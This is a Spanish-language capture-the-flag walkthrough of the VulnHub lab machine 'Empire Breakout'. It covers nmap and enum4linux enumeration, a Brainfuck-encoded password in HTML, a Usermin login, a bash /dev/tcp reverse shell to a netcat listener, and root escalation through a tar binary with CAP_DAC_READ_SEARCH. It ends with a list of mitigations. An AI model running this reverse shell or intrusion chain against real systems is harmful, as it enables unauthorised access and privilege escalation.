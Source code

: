 # **CTF EMPIRE BREAKOUT**

OBJETIVO: Linux 192.168.131.129 (Empire Breakout) <br>
 
 <div style="text-align: center;">
  <img src="https://raw.githubusercontent.com/Zyanetralys/profile/refs/heads/main/HD-wallpaper-star-wars-empire-battlefront-games-gaming-ps4-star-wars-starwars-xbox.jpg" width="550" alt="Star Wars Battlefront">
</div>

## SECUENCIA DE ATAQUE

### FASE 1: PREPARACIÓN 
mkdir ~/Desktop/vulnhub && cd ~/Desktop/vulnhub <br>
ping -c 4 192.168.131.129  # Verificación de conectividad <br>
Resultado: Objetivo accesible. <br>

### FASE 2: RECONOCIMIENTO
nmap -sC -sV -p- --open -oN escaneo 192.168.131.129 <br>
Puertos identificados: <br>
•	80/tcp - Apache httpd (página web) <br>
•	139/tcp - Samba smbd 4.6.2 <br>
•	445/tcp - Samba smbd 4.6.2 <br>
•	10000/tcp - MiniServ 1.981 (Webmin) <br>
•	20000/tcp - MiniServ 1.830 (Usermin) <br>

### FASE 3: EXPLOTACIÓN INICIAL
Análisis web: Navegador → http://192.168.131.129 <br>
•	Página Apache por defecto encontrada <br>
•	Inspección código fuente HTML <br>

Extracción de credenciales: <br>
•	Comentario HTML: <!-- Don't worry this is safe to share with you, my access is encoded --> <br>
•	Código Brainfuck localizado al final del HTML <br>
•	Decodificación: decode.fr → Contraseña obtenida: .2uqPEfj3D<P'a-3 <br>
 <br>
echo ".2uqPEfj3D<P'a-3" > clave  # Almacenamiento seguro <br>

Enumeración de usuarios: <br>
enum4linux -a 192.168.131.129 <br>
Usuario identificado: cyber <br>

### FASE 4: ACCESO INICIAL

Autenticación: <br>
•	Panel Usermin: https://192.168.131.129:20000 <br>
•	Credenciales: cyber / .2uqPEfj3D<P'a-3 <br>
•	ACCESO CONCEDIDO <br>
 <br>
Primera flag: <br>
En la parte inferior, clicar en la consola de comandos.<br>
ls          # Exploración directorio <br>
cat user.txt # Flag user obtenida <br>

### FASE 5: SHELL REVERSA
Preparación listener: <br>
ifconfig                    # IP local: 192.168.0.11 <br>
nc -lvp 443                # Listener puerto 443 <br>

Ejecución desde Command Shell del panel: <br>
bash -i >& /dev/tcp/192.168.0.11/443 0>&1 <br>
Shell reversa establecida como usuario cyber <br>
 <br>
### FASE 6: ESCALADA DE PRIVILEGIOS

Enumeración de privilegios: <br>
sudo -l                     # Sin resultados <br>
getcap -r / 2>/dev/null    # CRÍTICO: /home/cyber/tar cap_dac_read_search=ep <br>
 <br>
Identificación objetivo: <br>
cd /var/backups <br>
ls -la                     # Archivo: .old_pass.bak (propiedad root) <br>

Explotación capabilities: <br>
cd /home/cyber <br>
./tar -cf clave.tar /var/backups/.old_pass.bak  # Compresión con capabilities <br>
tar -xvf clave.tar                              # Extracción <br>
cd var/backups <br>
cat .old_pass.bak                               # Contraseña root: Ts&4&YurgtRX(=~h <br>

Escalada final:
su root                    # Password: Ts&4&YurgtRX(=~h <br>
script /dev/null -c bash   # Estabilización shell <br>
cd /root <br>
cat root.txt              # Flag root obtenida <br>

## VULNERABILIDADES CRÍTICAS EXPLOTADAS

### CREDENCIALES EN CÓDIGO FUENTE <br>
•	Vector: Contraseña Brainfuck en HTML <br>
•	Impacto: Acceso directo a panel administrativo <br>
•	Criticidad: MÁXIMA <br>

### CAPABILITIES MAL CONFIGURADAS
•	Vector: CAP_DAC_READ_SEARCH en binario tar <br>
•	Impacto: Lectura arbitraria de archivos sistema <br>
•	Criticidad: ALTA <br>

### ARCHIVO BACKUP CONTRASEÑA ROOT
•	Vector: /var/backups/.old_pass.bak <br>
•	Impacto: Escalada directa privilegios root <br>
•	Criticidad: MÁXIMA <br>
 
### PANEL ADMINISTRATIVO EXPUESTO
•	Vector: Usermin puerto 20000 sin restricciones <br>
•	Impacto: Superficie ataque administrativa <br>
•	Criticidad: MEDIA <br>

## HERRAMIENTAS EMPLEADAS
Reconocimiento: nmap, navegador web <br>
Enumeración: enum4linux, decode.fr <br>
Acceso: Panel web Usermin <br>
Persistencia: Netcat (shell reversa) <br>
Escalada: getcap, tar (capabilities) <br>

## MEDIDAS DE MITIGACIÓN

### CRÍTICAS (0-24 horas)
•	Eliminar credenciales de código fuente HTML <br>
•	Remover capability CAP_DAC_READ_SEARCH del binario tar <br>
•	Eliminar archivo /var/backups/.old_pass.bak <br>
•	Cambiar contraseña root inmediatamente <br>

### URGENTES (24-72 horas)
•	Restringir acceso paneles Webmin/Usermin por IP <br>
•	Auditar todos binarios con capabilities especiales <br>
•	Revisar ubicaciones backup archivos sensibles <br>

### IMPORTANTES (1-2 semanas)
•	Implementar gestión segura secretos <br>
•	Configurar monitoreo accesos administrativos <br>
•	Establecer proceso revisión código fuente <br>

## EVIDENCIAS
•	Flag Usuario: Capturada desde /home/cyber/user.txt <br>
•	Flag Root: Capturada desde /root/root.txt <br>
•	Credenciales: Usuario 'cyber' y contraseña root documentadas <br>
•	Archivos: Escaneo nmap y evidencias almacenadas en ~/Desktop/vulnhub/ <br>

## EVALUACIÓN
•	TIEMPO: 45 minutos <br>
•	DIFICULTAD: Baja <br>
•	DETECCIÓN: No <br>
•	El objetivo presenta varios vectores de ataque de nivel crítico que facilitan comprometerla rápidamente, destacando la combinación de credenciales expuestas y configuraciones inseguras. <br>

## MV
https://www.vulnhub.com/entry/empire-breakout,751/
